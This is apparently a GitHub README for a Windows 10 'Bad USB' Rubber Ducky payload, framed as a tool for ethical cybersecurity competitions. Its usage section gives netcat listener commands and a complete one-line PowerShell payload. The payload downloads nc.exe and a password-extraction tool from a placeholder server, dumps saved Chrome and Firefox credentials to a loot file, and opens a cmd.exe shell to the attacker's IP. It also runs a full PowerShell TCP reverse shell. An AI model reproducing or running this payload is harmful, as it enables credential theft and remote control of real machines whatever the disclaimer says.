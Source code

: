 # Windows 10 Bad USB Payload for Cybersecurity Competitions

## Overview
This repository contains a proof-of-concept USB payload inspired by Hak5 tools, designed for ethical cybersecurity competitions. The payload establishes a reverse shell and collects browser passwords in a controlled, isolated environment (e.g., virtual machines). It is intended for educational purposes and testing within competition guidelines only.

## Features
- **Reverse Shell**: Opens a TCP connection to a specified listener for remote access.
- **Browser Password Extraction**: Retrieves stored credentials from Chrome and Firefox.
- **Ethical Use**: Built for sanctioned competition use with explicit organizer consent.

## Prerequisites
- A USB device compatible with Hak5 payloads (e.g., Rubber Ducky).
- A Windows 10 target system (virtualized recommended).
- A server to host payload files and Netcat listeners.
- Tools like WebBrowserPassView (or equivalent) for password extraction.

## Usage
1. **Setup Listener**:
   - Run`nc -lvp 4444` for the reverse shell.
   - Run`nc -lvp 4445` for exfiltrated data.
2. **Host Files**:
   - Upload`nc.exe` and`pass.exe` to your server.
3. **Payload Deployment**:
   - Encode the following into your USB device:
     ```powershell
     IWR -Uri"http://YOUR_SERVER/nc.exe" -OutFile "$env:TEMP\nc.exe"; IWR -Uri"http://YOUR_SERVER/pass.exe" -OutFile "$env:TEMP\pass.exe"; & "$env:TEMP\pass.exe" -nogui -chrome -firefox > "$env:TEMP\loot.txt"; & "$env:TEMP\nc.exe" YOUR_IP 4445 -e cmd.exe;$client = New-Object System.Net.Sockets.TCPClient('YOUR_IP',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex$data 2>&1 | Out-String);$sendback2 =$sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
     ```
4. **Deploy**: Insert the USB into the target system and monitor your listeners.

## Disclaimer
This tool is for educational and competition use only. Unauthorized use outside of sanctioned environments is illegal and unethical. Always obtain explicit permission from system owners.

## License
MIT License - Use responsibly!
